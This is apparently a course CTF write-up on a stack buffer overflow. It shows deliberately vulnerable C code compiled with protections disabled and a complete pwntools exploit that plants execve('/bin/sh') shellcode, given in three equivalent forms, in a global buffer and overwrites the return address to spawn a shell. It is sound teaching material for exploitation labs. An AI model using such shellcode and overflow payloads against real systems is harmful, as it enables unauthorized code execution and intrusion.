 ```yaml
---
title: Simple Buffer Overflow - 0x04
tags: [CTF, PWN, NTUSTISC]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple Buffer Overflow - 0x04
###### tags: `CTF` `PWN`

## Original Code
```clike!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char message[48];

int main()
{
    char name[16];
    printf("Give me your message: ");
    fflush(stdout);
    read(0, message, 0x30);
    fflush(stdout);
    read(0, name, 0x30);
    return 0;
}
```
* Actually, this is a variant of the [lecture 0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs)
* <font color="F0000">Note that</font>, the global variable has its own address, instead of local variable that push to stack that we don't know at first.
* The 1st `read` function has no overflow, but 2nd `read` function has.

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission access just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/yQ8PeWN.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/moSdC0R.png)

## Exploit
* The main idea of this problem is write down your shellcode in `message` global variable and use `BOF` of 2nd `read` function to overlap `%rip`
* First, observe the address of global variable - `message` → `4033c0`
![](https://imgur.com/dTVBnkK.png)
* So, we have to construct our shellcode in [lecture 0x02](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/BJRfEWFcs)
    ```python!
    from pwn import *

    r = process('./bof3')
    raw_input()

    # First, we must set our infrastructure of the platform
    context.arch = 'amd64'  # x86-64 → amd64, x86-32 → i386

    # asm function transfer your shellcode to machine language
    shellcode = asm('''
    mov    rbx, 0x68732f6e69622f
    push   rbx
    mov    rdi, rsp
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rax, 0x3b
    syscall
    ''')

    r.send(shellcode)   # Send to 1st read function

    payload = b'a' * 0x18 + p64(0x4033c0)

    r.send(payload) # Send to 2nd read function that has bof
    r.interactive()
    ```

    * Note that, the 3 methods below are equal
        
        ```python!
        shellcode = asm('''
        mov    rbx, 0x68732f6e69622f
        push   rbx
        mov    rdi, rsp
        xor    rsi, rsi
        xor    rdx, rdx
        mov    rax, 0x3b
        syscall
        ''')
        ```
        
        * Made by [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly)
        ```python!
        shellcode = asm('\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')
        ```
            
        * Made by `pwntools` built-in function
        ```python!
        shellcode = asm(shellcraft.sh())
        ```
* Then we got shell!!!
    ![](https://imgur.com/fQ9X9e6.png)